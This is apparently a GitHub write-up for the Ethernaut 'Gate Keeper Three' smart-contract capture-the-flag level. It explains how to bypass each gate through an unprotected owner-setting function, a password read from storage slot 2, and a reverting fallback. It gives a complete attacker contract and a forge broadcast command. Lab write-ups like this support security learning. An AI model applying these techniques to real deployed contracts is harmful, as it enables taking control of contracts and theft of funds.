


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 27 - Gate Keeper Three</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Gate 1](#gate-1)
  - [Gate 2](#gate-2)
  - [Gate 3](#gate-3)
- [Solution](#solution)

## Objectif



## The hack

The `GateKeeperThree`is a really simple level. Nothing complex, just to follow the flow of each modifier. So let's check those modifiers:

### Gate 1

```javascript
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

We just have to call the `construct0r()` function to become the owner of the contract. This is solidity ^0.8, constructors are defined with the `constructor` keyword. On top of that, the function lacks access control. Already seen in previous levels. Same for the `tx.origin != owner` check. So let's move on.

### Gate 2

```javascript
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

To set `allowEntrance` to `true`, we need to call the `getAllowance` function. This function needs a password. And to get the password, we need to read the storage. However, before we can do that, we need to deploy the `SimpleTrick` contract by calling the `createTrick` function. Then we can read its storage at slot `2`:

- With web3:

```javascript
await web3.eth.getStorageAt("0x...your trick address here", 2);
```

- With Foundry:

```bash
bytes32 pwd = vm.load("0x...your trick address here", bytes32(uint256(2)));
```

### Gate 3

```javascript
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
}
```

So the contract needs to have a balance greater than 0.001 ether and must be prevented from being able to send it to our `GateSkipperThree` contract. So we can either add a fallback function that always reverts, or just make sure our contract can't receive funds by omitting the `receive` and fallback functions.

And... that's it.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKeeper {
    function owner() external view returns (address);
    function entrant() external view returns (address);
    function allowEntrance() external view returns (bool);
    function trick() external view returns (address);
    function construct0r() external;
    function getAllowance(uint _password) external;
    function createTrick() external;
    function enter() external;
}

contract GateSkipperThree {
    IKeeper public immutable keeper;
    address public trick;

    constructor(address _keeper) payable {
        keeper = IKeeper(_keeper);
        keeper.createTrick();
        trick = keeper.trick();
    }

    function attack(bytes32 _password) public {
        // Gate 1: Contract become owner, thanks to the lack of access control
        keeper.construct0r();
        require(keeper.owner() == address(this), "Contract isn't owner!");

        // Gate 2: Call getAllowance to get password
        keeper.getAllowance(uint256(_password));
        require(keeper.allowEntrance(), "allowEntrance isn't true!");

        // Gate 3: Deposit to keeper but revert on receive
        (bool success, ) = address(keeper).call{value: 0.0011 ether}("");
        require(success, "Deposit failed!");

        keeper.enter();
        require(keeper.entrant() == msg.sender, "Attack failed!");
    }

    fallback() external {
        require(true == false);
    }
}
```

Then you can run the script with the following command:

```bash
forge script script/28_GateKeeperThree.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
